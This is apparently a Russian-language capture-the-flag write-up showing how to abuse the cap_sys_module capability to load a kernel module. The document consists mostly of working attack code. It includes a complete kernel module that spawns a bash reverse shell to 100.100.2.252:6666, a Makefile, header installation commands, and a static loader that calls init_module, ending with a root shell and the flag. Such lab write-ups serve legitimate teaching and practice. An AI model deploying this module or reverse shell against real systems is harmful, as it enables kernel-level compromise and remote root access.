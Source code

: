 Подключается к системе и изучаем разрешения

```
capsh --print | grep Current:

Current: 
cap_chown,
cap_dac_override,
cap_fowner,
cap_fsetid,
cap_kill,
cap_setgid,
cap_setuid,
cap_setpcap,
cap_net_bind_service,
cap_net_raw,
cap_sys_module,
cap_sys_chroot,
cap_mknod,
cap_audit_write,
cap_setfcap=ep
```
Опаснее всего cap_sys_module

Создаем файл rev-shell.c 
```
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kmod.h>
#include <linux/string.h>

static int __init revshell_init(void) {
    char *argv[] = {
        "/bin/bash",
        "-c",
        "bash -i >& /dev/tcp/100.100.2.252/6666 0>&1",
        NULL
    };
    char *envp[] = {
        "HOME=/root",
        "TERM=xterm",
        "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        NULL
    };

    printk(KERN_INFO "Attempting to spawn reverse shell\n");
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

module_init(revshell_init);
MODULE_LICENSE("GPL");
```

Также потребуется добавить заголовки чтобы создать модуль ядра
```
Добавляем репозиторий Ubuntu (где есть нужные заголовки)
echo "deb http://archive.ubuntu.com/ubuntu focal-updates main" | sudo tee /etc/apt/sources.list.d/focal-updates.list
sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 3B4FE6ACC0B21F32
sudo apt update
sudo apt install -y linux-headers-5.4.0-216-generi
```

Создаем Makefile для компиляции шелла
```
 В Makefile явно указываем путь к заголовкам
nano Makefile
obj-m += rev-shell.o
all:
        make -C /usr/src/linux-headers-5.4.0-216-generic M=$(PWD) modules
clean:
        make -C /usr/src/linux-headers-5.4.0-216-generic M=$(PWD) clean

make
```

с помощью wget передает на тачку модуль ядра

С помощью команды insmod /tmp/exploit.ko пытаемся запустить его и получаем ошибку

создаем лоадер, который будет подгружать модуль

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/syscall.h>
#include <fcntl.h>
#include <unistd.h>

int main(int argc, char **argv) {
    int fd;
    void *module;
    long size;

    if (argc != 2) {
        printf("Usage: %s <module.ko>\n", argv[0]);
        return 1;
    }

    fd = open(argv[1], O_RDONLY);
    size = lseek(fd, 0, SEEK_END);
    lseek(fd, 0, SEEK_SET);
    module = malloc(size);
    read(fd, module, size);
    close(fd);

    if (syscall(__NR_init_module, module, size, "") != 0) {
        perror("init_module");
        return 1;
    }

    printf("Модуль воткнулся!\n");
    return 0;
}

gcc -static loader.c -o loader
```

на основной машине запускаем слушателя 
Loader также закидываем на тачку, запускаем ./loader rev-shell.ko => получаем шелл и флаг